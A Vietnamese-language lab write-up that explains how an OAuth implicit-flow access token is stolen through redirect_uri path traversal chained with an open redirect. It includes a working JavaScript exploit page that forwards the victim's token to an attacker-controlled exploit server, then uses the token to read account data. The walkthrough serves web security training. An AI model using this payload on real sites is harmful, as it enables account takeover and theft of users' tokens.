


# Lab: Stealing OAuth access tokens via an open redirect

**Mục tiêu:** Chiếm đoạt access token của victim bằng cách lợi dụng redirect path traversal/open-redirect để chuyển token vào exploit server.

**Phát hiện (Detect)**

- Thử thay `redirect_uri` trực tiếp bị whitelist chặn (400) nhưng path traversal `/oauth-callback/../post?postId=1` được chấp nhận → redirect nội bộ sang page chứa token trong fragment (`#access_token=...`).
- Page mục tiêu sử dụng fragment (hash) để chứa `access_token` sau implicit flow.



**Khai thác (Exploit)**

- Sử dụng tính năng `Next post` (route `/post/next?path=...`) để điều hướng tiếp tới exploit-server: `/oauth-callback/../post/next?path=https://exploit-.../exploit`.
- Tạo exploit page có body script để chuyển `document.location.hash` thành query string gửi tới server logs:

```html
<script>
  if (!document.location.hash) {
    window.location =
      "https://oauth-.../auth?client_id=...&redirect_uri=https://target/e.../post/next?path=https://exploit/.../exploit&response_type=token&scope=openid profile email";
  } else {
    window.location = "/?" + document.location.hash.substr(1);
  }
</script>
```

- Khi victim mở PoC, flow OAuth trả `#access_token=...` vào URL mục tiêu; PoC chuyển hash thành query gửi tới exploit server logs, từ đó attacker thu được `access_token`.

**Kết quả**

- Log exploit server chứa request với `access_token` của victim.
- Dùng token gọi `GET /me` để lấy thông tin account (ví dụ admin) và hoàn tất lab.


